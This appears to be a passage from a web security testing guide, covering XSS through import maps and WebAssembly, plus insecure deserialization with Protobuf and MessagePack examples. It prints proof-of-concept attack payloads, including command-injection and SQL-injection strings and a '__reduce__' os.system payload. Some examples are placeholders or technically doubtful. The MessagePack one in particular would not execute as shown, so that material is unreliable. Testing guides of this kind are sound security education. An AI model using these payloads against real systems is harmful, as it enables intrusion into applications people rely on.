 ```javascript

// 5. Import maps abuse (modern browsers)
<script type="importmap">
{
  "imports": {
    "react": "data:text/javascript,alert('XSS')//"
  }
}
</script>
```

### **🆕 WebAssembly (WASM) Security**:
```javascript
// WASM-based XSS
const wasmCode = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, // WASM magic
    0x01, 0x00, 0x00, 0x00, // version
    // ... malicious WASM bytecode
]);

WebAssembly.instantiate(wasmCode).then(result => {
    // Execute malicious code
    result.instance.exports.maliciousFunction();
});
```

---

## **8. Insecure Deserialization + Modern Serialization**

### **Traditional Deserialization Testing**
- **Step 1: Identify Deserialized Data**: Look for serialized objects in cookies, REST APIs.
- **Step 2: Manipulate Serialized Data**: Use tools like **ysoserial**.

### **🆕 Modern Serialization Attacks**

#### **Protocol Buffers (Protobuf) Security**:
```python
# Protobuf deserialization attack
import malicious_pb2

# Craft malicious protobuf message
malicious_msg = malicious_pb2.UserMessage()
malicious_msg.user_id = "1; DROP TABLE users; --"
malicious_msg.command = "__import__('os').system('id')"

# Serialize and send
serialized = malicious_msg.SerializeToString()
```

#### **MessagePack Attacks**:
```python
import msgpack

# Malicious MessagePack payload
malicious_data = {
    '__reduce__': ('os.system', ('id',))
}

packed = msgpack.packb(malicious_data, use_bin_type=True)
# Send packed data to application
```
